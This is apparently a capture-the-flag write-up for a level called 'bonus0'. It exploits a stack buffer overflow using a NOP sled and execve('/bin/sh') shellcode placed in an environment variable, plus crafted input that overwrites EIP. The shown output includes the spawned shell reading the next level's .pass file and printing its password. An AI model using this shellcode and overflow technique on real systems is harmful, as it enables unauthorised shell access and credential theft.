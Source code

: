 Same as the last exercice, we will implement an environment variable `EXPLOIT`, we will create it with :
```bash
export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'")
```

The first `read()` need 4095 bytes with an extra byte represented by `\n`.
We filled the second `read()` with 9 bytes, we place `0xbffff804` for overlap `EIP` which our `EXPLOIT` address and we finish by fill the buffer with 15 bytes and one extra byte for `\n` :
```bash
(python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x04\xf8\xff\xbf' + 'A' * 15 + '\n'" ; cat) | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAA??? AAAAAAAAA???AAAAAAA???
whoami
bonus1
cd .. && cat bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```